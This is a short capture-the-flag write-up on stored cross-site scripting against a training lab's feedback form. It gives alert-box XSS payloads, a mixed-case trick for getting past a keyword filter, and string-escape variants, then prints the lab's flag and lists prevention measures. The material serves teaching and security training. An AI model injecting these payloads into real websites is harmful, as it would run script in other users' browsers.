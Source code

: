 # Stored XSS
- a type of security vulnerability where an attacker can inject malicious scripts into content that is then served to other users
- the malicious script is permanently stored on the target server (e.g., in a database, comment section, or forum post)
- when a user visits the affected web page, the malicious script is executed in their browser
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

<b>keywords</b>: XSS basic<br>
<b>attacked site</b>: http://borntosec.42/?page=feedback

## Exploit
On the feedback page, there is a form that accepts 'name' and 'message'. Since the input length for 'name' is limited, we can try injecting JS code into it:
``` JS
<script>alert('XSS')</script>
```
If this does not work, the input might be sanitized for keywords. In that case, we can try to bypass the filter by mixing uppercase and lowercase letters in the word 'script':
``` JS
<sCRiPT>alert('XSS')</SCrIPt>
```
Alternatively, if the input is reflected inside a JS string, we can attempt to exit the string, execute the code, and then reconstruct the JS code:
``` JS
'-alert(1)-'
';-alert(1)//
\';alert(1)//
```
Submitting the first snippet successfully opens a popup window and displays the flag:
```
The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

## Flag
0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

## Exploit prevention
- validate user input
- encode output to prevent the browser from interpreting it as executable code
- disable inline JS
- store and validate the input in a database
